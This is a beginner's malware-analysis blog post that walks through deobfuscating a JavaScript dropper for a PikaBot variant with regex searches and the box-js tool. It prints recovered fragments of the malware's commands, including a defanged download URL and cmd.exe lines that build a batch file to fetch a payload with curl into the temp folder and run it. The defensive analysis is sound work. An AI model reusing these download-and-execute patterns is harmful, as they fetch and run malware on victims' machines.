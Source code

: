 ```yaml
---
layout: post
title: Malware Research - JavaScript Deobfuscation for Beginners
date: 22-10-2024
categories: [Malware, Obfuscation]
tag: [Malware, Obfuscation, JavaScript]
---
```


![Banner JS-Deob](assets/images/blogs/js-deobfuscation/Banner-js-deob.png)

With JavaScript being a popular programming language used in many web technologies, it often gets used by threat actors as initial stage payloads. Such scripts could have Powershell code embedded in them, further malware stagers, or functions for downloading malware from an attacker's C2 server. Because JavaScript is a high-level language, it's human-readable and logically easy to understand, so threat actors find ways to obfuscate (hide from an analyst) what the code is doing. In this blog, I'll cover some real JavaScript from the wild that was used to download and run a PikaBot variant. I'll cover my methodology, where I went wrong, and some learning points for you, the reader, to take away and apply to your own analysis.

## Why Obfuscate code at all?

As a quick primer, its worth covering why threat actors bother obfuscating their scripts and malware in the first place; The main reason is time. The more time it takes an analyst to work out what the malware is doing, the more time the attackers has to run their attack flow on your network.

Your job as an analyst is to work out what the attacker is doing as soon as possible, and this often means modifying the code to add a print statement (`console.log` in JS) to the end of obfuscated functions and dynamically running the code in a sandbox, letting the code deobfuscate itself as it'll need to do that to run it. The problem is, if the code is so obfuscated that you can't understand any of it, how do you know where to add your statements, or where to start and stop the program?

This was the case with a sample I recently played with, the obfuscation itself wasn't complicated, but it was messy, and if you don't know what your doing this type of obfuscation can overwhelm you. In this blog I will show you the general method I take to analysing JavaScript, or any programming language - and how these methods could be optimised and improved to be more time efficient.

## TL;DR

One thing I don't want to do is waste everyones time. So if you just want to know the easy way solution that I found when doing my research, see below:

* Use tools, they exist. Tools save so much time and get you 95% of the way you need to go with deobfuscation. In this research, I used [box-js](https://github.com/CapacitorSet/box-js) which did the entire deobfuscation in under ten seconds

* Use regular expressions to trim the fat from the malicious JS, there will be loads of junk data designed to throw off an analyst, RegEx can trim this down so fast

* VS Code and other text editors have built-in language interpreters, so with the click of a button the code VSCode can format your code for you, no need to manaually go line by line to beautify the scripts

Going foreward into this blog, there will be allot of detail on the steps I took and why, enjoy!

## An initial glance at the script

The sciprt I have been analysing here is called `Nuj.js`, [Virustotal link here](https://www.virustotal.com/gui/file/393a451442dd17754aa598000bf126b60fe3513a0c62daab2f829189f7156675), (it's malware, handle with care).

Upon openeing the script in restricted mode in VSCode, it was immediately clear that this was obfuscated. 

![Js-script-opened](assets/images/blogs/js-deobfuscation/nuj-opened-obfuscated.png)

There are 792 lines of code in this script, and I'm willing to bet only a dozen or so are actually doing things, the rest of the code is junk code. Junk code is put into the script to bloat it, and to confuse the analyst. Its not unheard of for malware authors to put Microsoft lisencing code into the script in an attempt to trick people into thinking the script is benign. Basically, Ych a fi! 

Let's get rid of all the junk code to see what we have left.

Now, we could go line by line and get rid of all the comments, but thats boring and takes too long, so let's use Regular exxpressions. Regular expressions (regex) are patterns used to match character combinations in strings. In programming, they are often used for searching, validating, extracting, or replacing text within strings. Regex can be powerful, allowing you to specify complex search patterns with concise syntax. We are going to use it here.

The exact steps are as follows:

* Hit `CTRL-F` on your keyboard
* Use the Regex search `\/\*.*?\*\/`
* Replace with nothing
* Click **Replace All**

I've used to Regex search of `\/\*.*?\*\/` because I want to clear out the comment declarations of `\*` and `*/`, and everything inside the comment declaration, represented by a wild card `*` and `?`. The two extra slashes are are to escape the sequence. See the picture below. 

![regex-search-1](assets/images/blogs/js-deobfuscation/regexx-search-1.png)

Now, with all of the junk comments out of the way, we can see a little more of what is going on. I appreicate at this point it's still messy but we will tidy it up.

![regex-search-1-complete](assets/images/blogs/js-deobfuscation/after-search-1.png)

One thing to note, I immediately noticed what obfuscation routine with was being used, because it is incredibly common, its called **mapping-based obfuscation**. Among all of the junk `lorem ipsum` code, there are varaible declarations, such as `x449195806+='s';` and `x808919187+='e';`, but these are scattered across 792 lines of code. What would happen is that the variable values would be concatenated together to form strings. These strings would most likely be commands, domain names, or other indicators of compromise, things we are interested in. So let's continue.

The nexxt step is to start tidying up the script to make the variable declarations and values readable as someting we can use. To that end, lets used more Regex:

* Hit `CTRL-F` on your keyboard
* Use the Regex search `.*\+=`
* Replace with nothing
* Click **Replace All**

After doing this, you'll be left with the individual letters that make up the strings. All the varaible values will be on different lines, as below:

```javascript
'c';
'm';
'd';
'.';
'e';
'x';
'e';
'.';
```
We can see that it says `cmd.exe` but its ugly, lets use Regex again to bring them onto the same line, as below:

* Hit `CTRL-F` on your keyboard
* Use the Regex search `';\n`
* Replace with `''`
* Click **Replace All**
* Hit `CTRL-F` on your keyboard again
* Use Regex to search `''`
* Replace with nothing
* Click **Replace** to replace individual values, there might be some `''` that we need to leave in as they form part of an actual function
* Hit `SHIFT-TAB` to bring all of the lines into the left 
* Hit `CTRL-SHIFT-I` to auto format the code into tidy JavaScript

See the picture below for the end result of the Regex queries:

![code-deobfuscated](assets/images/blogs/js-deobfuscation/code-deobfuscated.png)

Oweing to the fact that I did this in a few short minuites, the code is somewhat messy and incorrect in places, however, we can now see a bunch of the IoC's.

```console

httpx://shakyastatuestrade[.]com/IhA6F/616231603l988241708 = qui.q

cmd.exe / c echo | set / p = \"cu\" > \"%temp%\\\\dolorem.p.bat\"

ActiveXObject(\"WScript.Shell\" ) ).Run()

cmd.exe / c del\ " u311868867;\

cmd.exe / c echo rl\ " i750922179;\" --output \"%temp%\\\\dolorem.p\" --ssl-no-revoke --insecure --location >> \"%temp%\\\\dolorem.p.bat\"
```

However, this is where I hit a snag. I wasn't able to identify what certain varaibles were doing, and some of these IoCs are messy. I can get context with what is going on, but it could be clearer. 

Maybe I was too aggressive with my Regex, or i was clearly missing something. That is when i decided to go looking for a tool to deobfuscate the JavaScript for me, not least to check my work. 




![boxx-js-output](assets/images/blogs/js-deobfuscation/box-js-output.png)








